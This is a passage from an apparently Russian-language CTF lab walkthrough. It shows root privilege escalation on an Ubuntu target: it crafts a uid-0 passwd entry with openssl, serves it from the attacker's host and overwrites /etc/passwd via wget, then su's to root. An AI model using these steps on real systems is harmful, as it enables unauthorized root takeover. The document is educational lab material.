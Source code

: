 ```html
/snap/core/6350/usr/sbin/pppd
```

>Попробуем подменить файл passwd, для этого создадим на своей машине нового пользователя с помощью openssl. Имя - testuser, пароль - password:

```html
root@kali:~# openssl passwd -1 -salt testuser password
$1$testuser$lF4oCT8sao5vPDO2xzMXD1
```

>Далее откроем файл passwd, скопируем все содержимое в новый файл и добавим в конце заранее созданного пользователя testuser. По типу «имя юзера» + «:» + «хэш полученный с помощью openssl» + «:» + «root права». Должно получиться:

```html
testuser:$1$testuser$lF4oCT8sao5vPDO2xzMXD1:0:0:root:/root:/bin/bash
```

>Далее запустим http сервер на основной машине:

```html
root@kali:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

>И запросим файл passwd с флагом на замену исходного файла:

```html
www-data@ubuntu://etc$ wget -O passwd http://192.168.56.109:8000/passwd
wget -O passwd http://192.168.56.109:8000/passwd
--2020-03-25 08:11:59--  http://192.168.56.109:8000/passwd
Connecting to 192.168.56.109:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2569 (2.5K) [application/octet-stream]
Saving to: 'passwd'

passwd              100%[===================>]   2.51K  --.-KB/s    in 0s      

2020-03-25 08:11:59 (100 MB/s) - 'passwd' saved [2569/2569]
```

>Теперь остается только войти под testuser и взять последний флаг:

```html
www-data@ubuntu://etc$ su testuser
su testuser
Password: password

root@ubuntu://etc# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu://etc# cd //
cd //
root@ubuntu://# cd root
cd root
root@ubuntu://root# ls
ls
proof.txt
root@ubuntu://root# cat proof.txt
cat proof.txt
_________________________________________________________________________
 _____     _   _   U _____ u     U _____ u   _   _       ____           |
 |_ " _|   |'| |'|  \| ___"|/     \| ___"|/  | \ |"|     |  _"\         |
   | |    /| |_| |\  |  _|"        |  _|"   <|  \| |>   /| | | |        |
  /| |\   U|  _  |u  | |___        | |___   U| |\  |u   U| |_| |\       |
 u |_|U    |_| |_|   |_____|       |_____|   |_| \_|     |____/ u       |
 _// \\_   //   \\   <<   >>       <<   >>   ||   \\,-.   |||_          |
(__) (__) (_") ("_) (__) (__)     (__) (__)  (_")  (_/   (__)_)         |
```
